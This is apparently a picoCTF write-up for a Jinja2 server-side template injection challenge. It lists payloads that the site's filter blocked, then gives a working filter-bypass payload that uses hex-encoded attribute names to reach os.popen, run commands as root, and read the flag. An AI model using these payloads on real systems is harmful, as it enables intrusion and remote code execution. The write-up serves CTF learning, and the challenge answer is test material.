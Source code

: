 # **Writeup - SSTI2 (Server-Side Template Injection) 🚀**

### **📌 Challenge Name:** SSTI2

### **📌 Category:** Web Exploitation

### **📌 Description:**

> Description
> 
> 
> I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website 
> 

# **📜 PicoCTF 2024 - SSTI Filter Bypass Writeup 🔥**

## **🔍 Step 1: Identifying SSTI Vulnerability**

### **1️⃣ Testing Basic SSTI Execution**

We started by testing whether the input field was vulnerable to SSTI by injecting simple Jinja2 expressions:

```
{{ 7 * 7 }}

```

✔ **Returned `49`**, confirming Jinja2 SSTI was present.

Next, we tested if loops were working:

```
{% for item in ("a", "b", "c") %}{{ item }}{% endfor %}

```

✔ **Returned `abc`**, confirming that loops were working but restricted.

---

## **🔍 Step 2: Identifying WAF Protections**

The challenge used a **very aggressive Web Application Firewall (WAF)** to block all common SSTI exploit techniques.

### ❌ **Blocked Techniques**

| Attempted Payload | Result |
| --- | --- |
| `{{ self }}` | `<TemplateReference None>` (Limited context) |
| `{{ config.items() }}` | **Blocked** |
| `{{ request.application }}` | **Blocked** |
| `{{ os.system('ls') }}` | **Blocked** |
| `{{ subprocess.Popen('ls') }}` | **Blocked** |
| `{{ open('/etc/passwd').read() }}` | **Blocked** |
| `{{ getattr(1, "__class__") }}` | **Blocked** |
| `{{ __import__("os").system("ls") }}` | **Blocked** |
| `{{ **import**("so" | reverse).system("ls") }}` |
| `{{ request.__globals__['os'].system("ls") }}` | **Blocked** |
| `{{ __import__('base64').b64decode(...) }}` | **Blocked** |

📌 **Observation:**

- **Attribute access (`.`) was blocked** → No direct calls like `__class__`, `__dict__`, `mro`, `subclasses()`.
- **Common SSTI exploits (`config`, `globals()`, `builtins`) were blocked.**
- **Direct function execution (`exec()`, `eval()`, `os.system()`, `subprocess.Popen()`) was blocked.**
- **Encodings like Base64, Hex, and URL Encoding (`%XX`) were detected and blocked.**

---

## **🚀 Step 3: Breaking Through the WAF**

Since **all standard SSTI techniques were blocked**, we needed a way to:

1. **Access Python built-ins (without `globals()` or `builtins`).**
2. **Import and execute system commands (without `import` or `os.system()`).**

We decided to **use attribute filtering bypass techniques**.

---

## **🔥 Step 4: The Final Payload - Attribute-Based WAF Bypass**

```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}

```

✔ **Returned: `uid=0(root) gid=0(root) groups=0(root)`** → **CONFIRMED RCE!**

---

## **🔍 Step 5: Understanding Why This Works**

### **1️⃣ Accessing Flask Application Context**

- `request|attr('application')` → Accesses the **Flask application context**.
- The **Flask app context** contains references to global variables.

### **2️⃣ Bypassing `globals()` Restriction**

- `attr('\x5f\x5fglobals\x5f\x5f')` → Uses hexadecimal encoding for `__globals__` to bypass WAF detection.
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')` → Retrieves `__builtins__` safely.

### **3️⃣ Importing `os` Indirectly**

- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')` → Calls Python’s internal `__import__()` without triggering WAF filters.

### **4️⃣ Executing Commands Without `system()`**

- `attr('popen')('id')|attr('read')()` → Uses `os.popen("id")` instead of `os.system()`, which was blocked.

---

## **🎯 Step 6: Finding and Extracting the Flag**

### **✅ Listing Files**

```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la /')|attr('read')() }}

+

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('find / -name flag* 2>/dev/null')|attr('read')() }}
```

✔ **Discovered `/challenge/flag`**

### **✅ Reading the Flag**

```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /challenge/flag')|attr('read')() }}

```

✔ **Output:** `picoCTF{sst1_f1lt3r_byp4ss_060a5eb0}`
